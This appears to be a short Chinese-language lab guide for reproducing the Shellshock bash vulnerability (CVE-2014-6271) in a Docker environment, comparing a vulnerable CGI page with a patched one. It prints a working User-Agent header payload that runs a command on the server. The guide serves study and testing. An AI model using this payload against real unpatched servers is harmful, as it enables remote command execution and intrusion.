 # Shellshock 破壳漏洞（CVE-2014-6271）

编译运行：

```
docker-compose up -d
```

服务启动后，有两个页面`http://your-ip:8080/victim.cgi`和`http://your-ip:8080/safe.cgi`。其中safe.cgi是最新版bash生成的页面，victim.cgi是bash4.3生成的页面。

将payload附在User-Agent中访问victim.cgi：

```
User-Agent: () { foo; }; echo Content-Type: text/plain; echo; /usr/bin/id
```

命令成功被执行：

![](1.png)

同样的数据包访问safe.cgi，不受影响：

![](2.png)
